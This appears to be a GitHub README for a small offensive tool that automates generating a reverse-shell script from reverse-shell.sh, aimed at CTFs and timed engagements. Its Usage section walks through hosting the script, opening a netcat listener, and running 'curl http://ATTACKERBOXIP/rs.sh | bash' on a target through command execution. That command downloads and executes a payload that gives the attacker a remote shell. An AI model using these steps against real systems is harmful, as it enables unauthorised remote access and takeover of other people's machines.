 # Auto-RSaaS
Automated the usage of https://reverse-shell.sh/

Esentially this project automates the usage of the site https://reverse-shell.sh/. Typically during CTFs or even any timed engagements reverse shells are needed. There are two scripts located in the project the first being rs.sh which is just the reverse shell script grabbed from https://reverse-shell.sh/. Then we have gen.sh this is a script I wrote to grab the rs.sh file and edit its components.

Set Up
======================================================================================================================================================

1. Download the git project into your home folder /home/yourname/RSaaS/
2. Edit the contents of gen.sh to copy the rs.sh from your own home folder.
3. Setup a alias in bash to run rsaas something like rsaas= bash /home/harshil/rsaas/gen.sh

Usage
======================================================================================================================================================
1. run rsaas enter your port that you will listen on
2. setup a webserver where the rs.sh file is hosted (updog -p 80)
3. in another window run nc -nvlp 4444 (substitute 4444 which the port you are listening on)
4. use curl http://ATTACKERBOXIP/rs.sh | bash when attempting to use command execution

